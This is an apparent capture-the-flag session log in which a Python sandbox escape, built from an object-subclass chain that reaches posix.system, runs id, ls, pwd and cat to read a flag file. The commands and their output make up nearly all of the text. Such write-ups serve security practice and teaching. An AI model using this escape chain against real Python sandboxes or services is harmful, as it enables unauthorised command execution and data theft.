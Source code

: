 ```
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('id'))
uid=1000 gid=1000 groups=1000
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('id'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls'))
run
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('pwd'))
/app
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('pwd'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls ..'))
app
bin
dev
etc
flag-e1399cacce39a164310d45edc2f5960a
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls ..'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('cat ../flag-e1399cacce39a164310d45edc2f5960a'))
REDACTED
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('cat ../flag-e1399cacce39a164310d45edc2f5960a'))
0
ran
```
